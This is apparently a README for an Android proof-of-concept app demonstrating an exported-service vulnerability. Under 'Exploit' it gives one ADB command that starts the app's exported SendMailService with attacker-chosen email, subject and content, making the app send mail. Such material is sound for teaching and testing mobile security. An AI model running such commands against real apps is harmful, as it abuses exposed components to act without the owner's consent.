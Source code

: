 # Exported Service

- Install on Android device/emulator
- Exploit:
  - ADB command: ```./adb shell am startservice -n "com.poc.exported_service/com.poc.exported_service.SendMailService" --es gmail "example@gmail.com" --es subject "subject.for.mail" --es content "message.to.send"```
  - Check mail
